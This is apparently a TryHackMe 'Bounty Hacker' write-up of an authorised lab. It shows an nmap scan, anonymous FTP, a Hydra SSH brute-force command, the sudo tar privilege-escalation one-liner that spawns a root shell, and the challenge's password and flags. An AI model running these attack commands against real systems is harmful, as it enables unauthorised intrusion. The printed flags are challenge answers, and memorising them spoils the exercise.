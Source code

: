 
#Linux #tar #privesc #security 

---

> Doing an nmap scan to discover open ports and services.

```
└─$ nmap -sC -sV 10.10.80.223
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-08 07:32 EDT
Nmap scan report for 10.10.80.223
Host is up (0.16s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.5.150
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.78 seconds
```

> We see that we login as `anonymous` user into `ftp`.

```
ftp anonymous@10.10.80.223
```

> Listing the contents, we see 2 files.

![](./screenshots/ftp-1.png)

> Downloading both files to view their contents on our local attacking machine.

```
get locks.txt
get task.txt
```

![](./screenshots/cat-1.png)

######  Who wrote the task list? : `lin` .

###### What service can you bruteforce with the text file found? : `ssh` .

> We use Hydra to attack `ssh` with the given username `lin` and the passwords found in the `locks.txt` file.

```
hydra -l lin -P locks.txt ssh://10.10.80.223 
```

![](./screenshots/hydra.png)

> We get the password `RedDr4gonSynd1cat3`.

###### What is the users password? : `RedDr4gonSynd1cat3` .

> Now logging in as `lin` into the ssh machine and giving the password when prompted.

![](./screenshots/ssh-1.png)

> Listing the contents via `ls`, we see a `user.txt` file.
> Opening it to view its contents and submit the flag.

```
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

###### user.txt : `THM{CR1M3_SyNd1C4T3}` .

> We check what are the binaries we can run as sudo user.

```
sudo -l
```

![](./screenshots/sudo-1.png)

> We see that we can run `tar` as superuser.
> Checking out [GTFObins](https://gtfobins.github.io/gtfobins/tar/) for `tar`, we see there is a privilege escalation technique using `sudo`.

![](./screenshots/gtfo-1.png)

> We paste this command in the `ssh` terminal and become root user.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

> We become root user.
> Going to the root directory and opening the `root.txt` flag.

```
cd ../../../root
cat root.txt
```

> We get the flag: `THM{80UN7Y_h4cK3r}`.

###### root.txt : `THM{80UN7Y_h4cK3r}` .

---

